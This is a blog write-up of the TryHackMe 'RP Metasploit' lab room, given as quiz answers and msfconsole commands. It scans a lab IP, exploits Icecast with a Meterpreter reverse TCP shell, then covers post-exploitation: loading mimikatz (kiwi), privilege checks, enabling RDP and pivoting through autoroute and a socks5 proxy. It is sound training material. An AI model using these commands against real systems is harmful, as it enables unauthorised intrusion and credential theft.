 ```yaml
---
title: "RP Metasploit | TryHackMe"
date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - cybersecurity
  - writeup
---
```


---

RP Metasploit | TryHackMe
Learn to use Metasploit, a tool to probe and exploit vulnerabilities on networks and servers.
Task 1 Intro
Kali and most other security distributions of Linux include Metasploit by default. If you are using a different distribution of Linux, verify that you have it installed or install it from the Rapid 7 Github repository.
Metasploit

---

Task 2 Initializing…
First things first, we need to initialize the database! Let's do that now with the command
msfdb init
msfdb initBefore starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command:
msfconsole -h
msfconsole -hWe can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-'
-q
msfconsole -qOnce the database is initialized, go ahead and start Metasploit via the command:
msfconsole
msfconsoleAfter Metasploit has started, let's go ahead and check that we've connected to the database. Do this now with the command:
db_status
db_statusCool! We've connected to the database, which type of database does Metasploit 5 use?
postgresql

---

Task 3 Rock'em To The Core
Using the help menu, let's now learn the base commands and the module categories in Metasploit. Nearly all of the answers to the following questions can be found in the Metasploit help menu.
Let's go ahead and start exploring the help menu. On the Metasploit prompt (where we'll be at after we start Metasploit using msfconsole), type the command:
help
helpThe help menu has a very short one-character alias, what is it?
?
Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. What is the base command we use for searching?
search
searchOnce we've found the module we want to leverage, what command we use to select it as the active module?
use
useHow about if we want to view information about either a specific module or just the active one we have selected?
info
infoMetasploit has a built-in netcat-like function where we can make a quick connection with a host simply to verify that we can 'talk' to it. What command is this?
connect
connectEntirely one of the commands purely utilized for fun, what command displays the motd/ascii art we see when we start msfconsole (without -q flag)?
banner
bannerWe'll revisit these next two commands shortly, however, they're two of the most used commands within Metasploit. First, what command do we use to change the value of a variable?
set
setMetasploit supports the use of global variables, something which is incredibly useful when you're specifically focusing on a single box. What command changes the value of a variable globally?
setg
setgNow that we've learned how to change the value of variables, how do we view them? There are technically several answers to this question, however, I'm looking for a specific three-letter command which is used to view the value of single variables.
get
getHow about changing the value of a variable to null/no value?
unset
unsetWhen performing a penetration test it's quite common to record your screen either for further review or for providing evidence of any actions taken. This is often coupled with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. What command can we use to set our console output to save to a file?
spool
spoolLeaving a Metasploit console running isn't always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. What command can we use to store the settings/active datastores from Metasploit to a settings file? This will save within your msf4 (or msf5) directory and can be undone easily by simply removing the created settings file.
save
save

---

Task 4 Modules For Every Occasion!
Metasploit consists of six core modules that make up the bulk of the tools you will utilize within it. Let's take a quick look through the various modules, their purposes, and some of the commands associated with modules.
*Note, this diagram includes both the interfaces and *most\* of the modules. This diagram does not include the 'Post' module.Easily the most common module utilized, which module holds all of the exploit code we will use?
exploit
Used hand in hand with exploits, which module contains the various bits of shellcode we send to have executed following exploitation?
payload
Which module is most commonly used in scanning and verification machines are exploitable? This is not the same as the actual exploitation of course.
auxiliary
One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?
post
Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?
encoder
Last but not least, which module is used with buffer overflow and ROP attacks?
nop
Not every module is loaded in by default, what command can we use to load different modules?
load

---

Task 5 Move That Shell!
Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!
As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service.
Note, Metasploit does support different types of port scans from within the auxiliary modules. Metasploit can also import other scans from nmap and Nessus just to name a few.

Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command
db_nmap -sV 10.10.199.128
db_nmap -sV 10.10.199.128What service does nmap identify running on port 135?
msrpc
msrpcLet's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.
hostsHow about something else from the database, try the command services now.
servicesOne last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.
vulnsNow that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? \*This will include the exploit section at the start
exploit/windows/http/icecast_header
exploit/windows/http/icecast_headerWhile that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command search multi/handler.
multi/handlerGo ahead and run the command use NUMBER_NEXT_TO exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
use 5
use 5What is the name of the column on the far left side of the console that shows up next to 'Name'?

#

Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.
Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.
use show options commandLet's go ahead and return to our previous exploit, run the command use icecast to select it again.
One last step before we can run our exploit. Run the command set RHOSTS 10.10.199.128 to tell Metasploit which target to attack.
always show options to see if all requirement are metOnce you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.
recommend use -j commandOnce we've started this, we can check all of the jobs running on the system by running the command jobs
After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER
sessionssessions -i SESSION_NUMBER

---

Task 6 Were In, Now What?
Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.
First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command ps. What's the name of the spool service?
psLet's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!
migrate
Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?
getuid
getuidHow about finding more information out about the system itself?
sysinfo
sysinfoThis might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?
load kiwi
Let's go ahead and figure out the privileges of our current user, what command do we run?
getprivs
getprivsWhat command do we run to transfer files to our victim computer?
upload
How about if we want to run a Metasploit module?
run
A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?
ipconfig
Let's go ahead and run a few post modules from Metasploit. First, let's run the command run post/windows/gather/checkvm. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
post/windows/gather/checkvmNext, let's try: run post/multi/recon/local_exploit_suggester. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room Ice.
run post/multi/recon/local_exploit_suggesterFinally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: run post/windows/manage/enable_rdp
run post/windows/manage/enable_rdpOne quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?
shell
shell

---

Task 7 Making Cisco Proud
Last but certainly not least, let's take a look at the autorouting options available to us in Metasploit. While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks.
Let's go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
run autoroute -s 172.18.1.0 -n 255.255.255.0
Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command search server/socks5. What is the full path to the socks5 auxiliary module?
auxiliary/server/socks5
Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with proxychains?
proxychains
